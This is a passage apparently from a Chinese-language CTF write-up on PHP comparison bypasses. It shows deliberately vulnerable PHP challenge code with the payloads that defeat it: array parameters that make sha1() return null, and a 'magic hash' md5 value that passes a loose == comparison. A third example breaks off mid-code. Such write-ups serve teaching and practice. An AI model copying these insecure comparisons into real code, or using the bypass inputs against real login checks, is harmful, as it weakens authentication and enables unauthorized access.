 ```bash
var_dump($_GET['name']);
echo "
";
var_dump($_GET['password']);
var_dump(sha1($_GET['name']));
var_dump(sha1($_GET['password']));
if ($_GET['name'] == $_GET['password'])
echo '

Your password can not be your name!

';
else if (sha1($_GET['name']) === sha1($_GET['password']))
die('Flag: '.$flag);
else
echo '
Invalid password.

';
}
else
echo '
Login first!

';
?>

```
利用了sha1函数处理数组返回null. 
```bash
payload: ?name[]=1&password[]=3
```
# md5加密相等绕过
```bash
<?php
$md51 = md5('QNKCDZO');
$a = @$_GET['a'];
$md52 = @md5($a);
if(isset($a)){
if ($a != 'QNKCDZO' && $md51 == $md52) {
echo "flag{*}";
} else {
echo "false!!!";
}}
else{echo "please input a";}
?>
```
构造payload:
```bash
?a=240610708
```
# 十六进制与数字比较
```bash
<?php
error_reporting(0);
function noother_says_correct($temp)
{
$flag = 'flag{test}';
$one = ord('1'); //ord — 返回字符的 ASCII 码值
$nine = ord('9'); //ord — 返回字符的 ASCII 码值
$number = '3735929054';
```
